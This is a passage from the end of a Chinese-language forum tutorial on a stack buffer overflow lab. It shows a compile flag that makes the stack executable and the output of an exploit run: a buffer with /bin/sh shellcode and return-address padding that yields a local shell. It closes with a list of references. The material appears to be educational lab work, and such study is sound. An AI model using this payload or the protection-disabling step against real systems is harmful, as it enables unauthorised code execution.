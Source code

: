 ![](https://bbs.kanxue.com/upload/attach/202406/1000123_NEA3FCQYCMTBABP.webp)

小问题不慌，添加编译选项`-z execstack`，使得栈变成可以执行的状态。

4.5 成功 PWN
----------

在获得可执行栈的程序后，再次运行`exploit`，就可以成功得到`shell`，完成 PWN 了！！！

```
python ./exploit.py
sh: line 1: warning: command substitution: ignored null byte in input
buffer content: jhH�/bin///sPH��hri�4$1�V^H�VH��1�j;XAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB�����
sh-5.2$

```

![](https://bbs.kanxue.com/upload/attach/202406/1000123_RG8NS2TVXY4E8PX.webp)

参考资料
====

1.  [https://seedsecuritylabs.org/index.html](https://seedsecuritylabs.org/index.html)
2.  [https://tc.gts3.org/cs6265/2023/](https://tc.gts3.org/cs6265/2023/)
3.  网络渗透技术 - 安全焦点
4.  [https://docs.pwntools.com/en/stable/](https://docs.pwntools.com/en/stable/)

[[培训] 内核驱动高级班，冲击 BAT 一流互联网大厂工作，每周日 13:00-18:00 直播授课](https://www.kanxue.com/book-section_list-174.htm)

[#溢出](forum-171-1-182.htm) [#基础知识](forum-171-1-180.htm)